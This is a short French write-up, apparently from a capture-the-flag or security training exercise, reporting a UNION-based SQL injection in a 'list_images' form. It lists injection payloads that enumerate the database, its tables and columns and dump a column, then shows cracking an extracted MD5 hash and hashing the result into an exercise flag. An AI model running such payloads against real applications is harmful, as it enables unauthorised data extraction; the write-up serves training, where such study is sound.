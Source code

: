 # Rapport de Vulnérabilité : Injection SQL (list\_images)

## Nom de la Faille

Injection SQL

## Description

Cette faille est similaire à l'injection SQL sur 'Members ID'. Elle permet également d'exécuter des requêtes SQL arbitraires via un formulaire, en accédant à des informations sensibles dans la base de données. La table ciblée est `list_images`, et l'exploitation suit le même processus que précédemment.

## Commandes Utilisées

```
1 UNION ALL SELECT 1, DATABASE()
1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables
1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns
1 AND 1=2 UNION SELECT {column_name}, null FROM list_images
```

## Traitement des données extraites

Dans la colonne `comment`, nous obtenons un code MD5 qu'il faut :

1. Déchiffrer en MD5.
2. Mettre en minuscule.
3. Encrypter en SHA-256.

### Exemple de traitement

- Code MD5 extrait : 1928e8083cf461a51303633093573c46
- Décodage MD5 : `albatroz`
- Encodage SHA-256 :

```
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## Conclusion

Cette injection SQL est similaire à celle de 'Members ID', exploitant des failles d'entrée utilisateur non sécurisées. En appliquant les mêmes mesures correctives, vous réduisez considérablement le risque de compromission des données.